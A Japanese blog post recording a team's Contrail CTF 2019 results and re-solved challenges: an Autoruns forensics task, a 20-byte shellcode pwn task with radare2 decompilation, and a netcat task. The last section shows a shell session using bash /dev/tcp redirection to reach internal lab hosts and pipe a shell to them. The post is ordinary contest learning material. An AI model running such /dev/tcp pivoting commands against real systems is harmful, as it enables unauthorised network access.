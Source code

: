 --
date: 2020-01-04
description: 'Contrail CTF 参加記録'
tags:
 - CTF
---

# Contrail CTF 参加記録と解き直し

SCBで出て, Score302, 25位でした。
そのうち, 私は以下の問題を解きました。

 - debug_port: network
 - Persistence: forensics
 
では, 解き直しをやっていき

## forensics
### Persistence
`.arn`ファイルが与えられます。  
これはAutorunsの拡張子なので, 開いて中身を確認します。

Task Schedulerに`\Evil`というプロセスが残っているので中身を確認するとflagがあります。

### alice's password
正しくunzipできないzipファイルとdataが与えられます。

## Pwn
### EasyShellCode
20Byte(0x14)までしかread()してくれない。
そのあとはシェルコードを実行してくれる。

radare2で逆アセンブルする。

```
# r2 problem 
[0x00000710]> aaaa
[Cannot analyze at 0x00000700g with sym. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[Cannot analyze at 0x00000700ac)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00000710]> s main
[0x0000081a]> pdd
/* r2dec pseudo code output */
/* problem @ 0x81a */
#include <stdint.h>
 
int32_t main (void) {
    rax = *(fs:0x28);
    *((rbp - 8)) = rax;
    eax = 0;
    r9d = 0;
    r8d = 0;
    rax = mmap (0, 0x64, 7, 0x22, r8d, r9d);
    *((rbp - 0x10)) = rax;
    eax = 0;
    printf ("Input your shellcode: ");
    rax = stdout;
    fflush (*(obj.stdout));
    rax = *((rbp - 0x10));
    read (0, rax, 0x14);
    rax = *((rbp - 0x10));
    edx = 7;
    esi = 0x64;
    rdi = rax;
    mprotect ();
    rax = rbp - 0x10;
    rdx = 0;
    rdi = 0;
    rsi = 0;
    rbx = 0;
    rcx = 0;
    r8 = 0;
    r9 = 0;
    r10 = 0;
    r11 = 0;
    r12 = 0;
    r13 = 0;
    r14 = 0;
    r15 = 0;
    rbp = 0;
    return uint64_t (*rax)() ();
}
```

最後の行で`uint64_t (*rax)() ();`を実行しているので, `read (0, rax, 0x14);`でシェルコードを読み込めれば問題なく実行できそう。  


これは, 引数が空で返り値がuint64_tな関数へのポインタであり, raxから始まるアドレスに格納されているアドレスを間接参照で読み出します。

 - [詳しくはこちらを見ると良い](https://www.sigbus.info/compilerbook#type)


## Misc
### Let's connct
```
$ nc 114.177.250.4 2999
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ help
help
GNU bash, version 4.4.20(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                            history [-c] [-d offset] [n] or hist>
 (( expression ))                        if COMMANDS; then COMMANDS; [ elif C>
 . filename [arguments]                  jobs [-lnprs] [jobspec ...] or jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] name[=value] ...
 alias [-p] [name[=value] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d delim] [-n count] [-O or>
 bind [-lpsvPSVX] [-m keymap] [-f file>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | dir]
 caller [expr]                           pwd [-LP]
 case WORD in [PATTERN [| PATTERN]...)>  read [-ers] [-a array] [-d delim] [->
 cd [-L|[-P [-e]] [-@]] [dir]            readarray [-n count] [-O origin] [-s>
 command [-pVv] command [arg ...]        readonly [-aAf] [name[=value] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NAME [in WORDS ... ;] do COMM>
 compopt [-o|+o option] [-DE] [name ..>  set [-abefhkmnptuvxBCHP] [-o option->
 continue [n]                            shift [n]
 coproc [NAME] command [redirections]    shopt [-pqsu] [-o] [optname ...]
 declare [-aAfFgilnrtux] [-p] [name[=v>  source filename [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f filename] [na>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a name] [command [argume>  true
 exit [n]                                type [-afptP] name [name ...]
 export [-fn] [name[=value] ...] or ex>  typeset [-aAfFgilnrtux] [-p] name[=v>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [first] [last] o>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] name [name ...]
 for NAME [in WORDS ... ] ; do COMMAND>  unset [-f] [-v] [-n] [name ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDS; do COMMANDS; done
 function name { COMMANDS ; } or name >  variables - Names and meanings of so>
 getopts optstring name [arg]            wait [-n] [id ...]
 hash [-lr] [-p pathname] [-dt] [name >  while COMMANDS; do COMMANDS; done
 help [-dms] [pattern ...]               { COMMANDS ; }
bash-4.4history
history
    1  help
    2  history
bash-4.4$ history
history
    1  help
    2  history
    3  history
bash-4.4$ exec <> /dev/tcp/172.17.0.10/3000
exec <> /dev/tcp/172.17.0.10/3000
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.10/3000: Connection refused
bash-4.4$ ls
ls
bash
bin
dev
flag
lib
lib32
lib64
bash-4.4$ echo "$(<flag)"
 echo "$(<flag)"
Flag has moved to 3000 port on 172.17.0.5 .
bash-4.4$ exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
```

## ref
 - [Contrail CTF writeup by aqua](https://www.aquablog.site/entry/2020/01/04/000000)
 - [ContrailCTF\_2019のwriteup by Tsubasa](http://szarny.hatenablog.com/entry/2020/01/04/ContrailCTF_2019%E3%81%AEwriteup)
 - [Contrail CTF WriteUp by ryoto](https://www.ryotosaito.com/blog/?p=400)
 - [Contrail CTF 2019のWriteup by ptr-yudai](https://ptr-yudai.hatenablog.com/entry/2020/01/04/000225)
